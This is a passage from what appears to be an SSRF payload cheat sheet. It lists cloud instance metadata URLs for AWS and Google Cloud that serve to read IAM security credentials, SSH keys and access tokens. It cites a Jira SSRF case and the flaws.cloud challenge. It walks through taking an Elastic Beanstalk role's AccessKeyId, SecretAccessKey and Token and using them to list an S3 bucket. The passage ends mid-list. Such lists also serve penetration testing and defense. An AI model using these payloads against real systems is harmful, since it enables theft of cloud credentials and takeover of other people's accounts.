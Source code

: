     http://169.254.169.254/latest/user-data
    http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
    http://169.254.169.254/latest/meta-data/
    http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
    http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
    http://169.254.169.254/latest/meta-data/ami-id
    http://169.254.169.254/latest/meta-data/reservation-id
    http://169.254.169.254/latest/meta-data/hostname
    http://169.254.169.254/latest/meta-data/public-keys/
    http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
    http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
    http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
    http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
    http://169.254.169.254/latest/dynamic/instance-identity/document
E.g: Jira SSRF leading to AWS info disclosure —
    
    https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance
E.g2: Flaws challenge —

    http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
### SSRF URL for AWS Elastic Beanstalk
We **retrieve** the **accountId** and region from the API.

    http://169.254.169.254/latest/dynamic/instance-identity/document
    http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
We then retrieve the **AccessKeyId**, **SecretAccessKey**, and **Token** from the API.

    http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
![](https://miro.medium.com/v2/resize:fit:4800/format:webp/0*4OG-tRUNhpBK96cL)
Then we use the credentials with **aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/**.
### SSRF URL for Google Cloud
Requires the header “Metadata-Flavor: Google” or “X-Google-Metadata-Request: True”

    http://169.254.169.254/computeMetadata/v1/
    http://metadata.google.internal/computeMetadata/v1/
    http://metadata/computeMetadata/v1/
    http://metadata.google.internal/computeMetadata/v1/instance/hostname
    http://metadata.google.internal/computeMetadata/v1/instance/id
    http://metadata.google.internal/computeMetadata/v1/project/project-id
Google allows recursive pulls

    http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

    http://metadata.google.internal/computeMetadata/v1beta1/
    http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
Interesting files to pull out:
- SSH Public Key:

      http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json
- Get Access Token:
